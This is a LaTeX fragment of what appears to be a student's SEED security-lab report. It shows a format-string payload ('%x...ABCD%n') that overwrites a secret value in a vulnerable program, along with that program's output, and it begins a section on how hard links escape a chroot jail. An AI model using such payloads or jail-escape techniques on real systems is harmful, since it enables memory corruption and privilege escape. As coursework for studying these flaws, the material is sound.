 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of overwriting memory with a specified value using a file as standard input,
	label=printf:writefile2,
	breaklines=true,
  float=tb
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./write_string
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.ABCD%n    
The string length is 40
seed@seed-desktop:~/cwk2$ ./vul < mystring
The variable secret’s address is 0xbffff4e8 (on stack)
The variable secret’s value is 0x 804b018 (on heap)
secret[0]’s address is 0x 804b018 (on heap)
secret[1]’s address is 0x 804b01c (on heap)
Please enter a string
bffff4ec.bffff560.bffff554.bffff5f4.0.0.bffff5a0.b7fff670.80482bf.804b018.ABCD
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x52
\end{lstlisting}



\section{\texttt{chroot} vulnerability}
This section addresses \texttt{chroot} vulnerability described in \url{http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Chroot/}. Useful insight for this section is presented in~\cite{chroot}.

\subsection{Understanding how \texttt{chroot} works}
\subsubsection{Symbolic link}
It is \emph{not} possible to follow symbolic link pointing outside of \texttt{chroot} jail.\\
Symbolic link uses absolute or relative path to given fail, hence once in jail this relative path is not valid any-more.

\subsubsection{Hard link}
It \emph{is} possible to follow hard link pointing outside of \texttt{chroot} jail.\\
Hard links are used all over the operating system to point to given location in file-system. Therefore regardless of jail the link always points to the same location in file-system.
\end{document}
